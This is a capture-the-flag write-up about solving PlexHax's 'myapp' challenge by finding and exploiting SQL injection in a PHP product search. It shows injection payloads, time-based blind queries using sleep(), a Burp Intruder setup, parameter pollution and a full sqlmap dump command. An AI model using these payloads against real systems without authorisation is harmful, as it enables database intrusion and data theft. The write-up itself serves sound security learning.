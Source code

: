 ## Polluted Pathways: From Innocent Parameters to Malicious SQL

Hello all! This past weekend I had the opportunity to participate in PlexHax's CTF event hosted by PlexTrac. I thoroughly enjoyed working through the available challenges and wanted to document the solution to the 'myapp' challenge. 

![](https://miro.medium.com/v2/resize:fit:627/1*OBtegrwInvE-DLh39uORzQ.png)

When first navigating to the target application, a search page is rendered allowing the user to search for different products based on attributes such as Price, Category, and Product Name. 

![](https://miro.medium.com/v2/resize:fit:437/1*7R4eB6Mlq74sWKi4mcBbrQ.png)

During the manual testing process, a noteworthy behavior emerges: the application seems to accept string concatenation. Specifically, the input fields appear to treat the `'+'` character as a legitimate means of concatenating strings. This behavior becomes evident when the input `'te'+'st'` results in the display of the word `'test'`.

The recognition of this string concatenation behavior is a significant clue. It implies that the application's backend likely constructs SQL queries by merging strings, potentially leading to a vulnerability known as SQL injection (SQLi). In SQL injection attacks, attackers exploit the application's inadequate handling of input, tricking it into executing unintended SQL queries.

**HTTP Request**
```HTTP
GET /search.php?attribute=product_name&query=hoo'+'die HTTP/2

Host: myapp.plexhax.com
```

**HTTP Response:**
```HTTP
HTTP/2 200 OK
X-Powered-By: PHP/7.4.33
Alt-Svc: h3=":443"; ma=86400

<!-- search.php -->
Product Name: hoodie - Price: $10.99<br>
```

To validate the presence of the SQLi vulnerability and delve deeper into its implications, we can adapt the _ORDER BY_ technique into a blind scenario. In a blind situation, the attacker doesn't receive direct error messages or database outputs but relies on how the application responds to crafted queries. 

By injecting ORDER BY clauses with numeric indices and observing the application response, we can solidify if the user-supplied input is influencing the SQL query execution. If vulnerable, we can also deduce valuable information, such as the number of columns in the query, the data types of columns, and more. 

```SQL
1' GROUP BY 1--+	#True
1' GROUP BY 2--+	#True
1' GROUP BY 3--+	#True
1' GROUP BY 4--+	#False - Query is only using 3 columns
```

When iteratively modifying the payload `hoodie'+ORDER BY 3--+` was supplied, the application displayed the results as expected. However, when supplying 4 columns the application unexpectedly refrained from displaying the results. This distinctive behavior indicates that ordering by the fourth column yielded no matching outcomes.    

**HTTP Requests:**
```HTTP
GET /search.php?attribute=product_name&query=hoodie'+ORDER+BY+3--+ HTTP/2
Host: myapp.plexhax.com
```

**HTTP Response:**
```HTTP
HTTP/2 200 OK
Date: Thu, 17 Aug 2023 17:44:38 GMT
Content-Type: text/html; charset=UTF-8
X-Powered-By: PHP/7.4.33

<!-- search.php -->
Product Name: hoodie - Price: $10.99<br>
```

**False HTTP Request**:
```HTTP
GET /search.php?attribute=product_name&query=hoodie'+ORDER+BY+4--+ HTTP/2
Host: myapp.plexhax.com
```

**HTTP Response:**
```HTTP
HTTP/2 200 OK
Date: Thu, 17 Aug 2023 17:44:38 GMT
Content-Type: text/html; charset=UTF-8
X-Powered-By: PHP/7.4.33

<!-- search.php -->
No products found.
```


While presumptions about the database management system (DBMS) can be inferred, we can extract the version number utilizing a blind technique which can play a pivotal role in understanding the technology stack and any associated vulnerabilities. 

To achieve this, we can utilize the power of conditional statements within SQL queries. Conditional statements enable the application to execute different actions based on a specified condition. In this case, the goal was to create a statement that would selectively trigger an action based on the DBMS version number. 
```SQL
SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')`
```

A common technique to extract this information involves the use of the `MID()` function. The following payload was employed:

```SQL
GET /search.php?attribute=product_name&query=hoodie' OR IF(MID(@@version,1,1)='5',sleep(10),1)='2
```

Here, `@@version` refers to the DBMS version string, and `MID()` extracts the first character of the version and checks if it's equal to '5'. If the condition is true, the database will pause for 10 seconds, if not, the application response time should be `normal`.

This is a great task for Burp Intruder, a tool capable of automating repetitive HTTP requests, and inserting customized payloads into designated positions iteratively. Capture the search request and forward it to Intruder.

![](https://miro.medium.com/v2/resize:fit:627/1*ZlruPhSvQoq32sX-dmunqA.png)

Modify the attack type to use `Cluster Bomb` which allows for multiple positions to be iteratively tested based on the supplied payloads, providing all possible permutations. 

```HTTP
GET /search.php?attribute=product_name&query=hoodie'+OR+IF(MID(%40%40version,§1§,1)%3d'§5§',sleep(10),1)%3d'2 HTTP/2

```

`§1§`: A marker representing the position within the string where the first character of the version number is located.

`§5§`: A marker representing the position within the string where the specific character we're comparing to is located.

Add a new payload marker to the version number we're attempting to check (5), and the first character of @@version (1) as shown above.

Select the payloads tab and use the `Numbers` payload type for both of our payload sets. Define our range from 0-10 with a step of 1 to iterate through all numbers and start the attack. 

![](https://miro.medium.com/v2/resize:fit:627/1*eR7opk9UgPQffrRHYgbpOw.png)

The "Cluster Bomb" attack type facilitates the systematic iteration through various values at specific positions within the payload. By selecting the "Numbers" payload type and defining the range from 0 to 10 with a step of 1, the attack will execute the payload with each number in the defined range, substituting the markers accordingly.

Once the attack is initiated, the results are captured and presented for analysis. In this scenario, the "Columns" tab becomes invaluable. This tab allows the inclusion of "Response Received" and "Completed Times," providing a comprehensive overview of how the application responded to each iteration of the attack.

The conditional logic set up in the payload comes into play here. As each iteration runs, it supplies a new number to be referenced in the conditional statement, assessing whether the behavior changes in response to the modified payloads. Filtering the requests by "Response Completed" will showcase a few requests with significantly longer response times indicating that our conditional statement succeeded causing the DBMS to sleep for 10 seconds. 

Now that we've extracted some important information using manual testing, we can have `sqlmap` begin to fingerprint the DBMS and fetch data from the DB. 

It's important to note during this testing, I managed to discover HTTP Parameter Pollution (HPP) for the `query` parameter. Though HPP vulnerabilities don't directly cause SQLi vulnerabilities, they can open up additional attack vectors and allow exploitation through previously tested parameters. 

![](https://miro.medium.com/v2/resize:fit:627/1*Zpv-DX5medrtwoneCOlqaQ.png)

I included the additional query parameter and saved the HTTP request to a file titled 'request.txt'.

```HTTP
GET /search.php?attribute=product_name&query=test&query= HTTP/2
Host: myapp.plexhax.com
```

```bash
sqlmap -r request.txt -a -p query
```

![](https://miro.medium.com/v2/resize:fit:533/1*d-pWtxrGmm6W3kSZ3eOvWQ.png)

And there is our ~~flag~~! As you may have noticed from the challenge description, the flag is only obtained after using this value as the *report name* through their reporting platform. Once submitted, the redeemable flag is presented.  
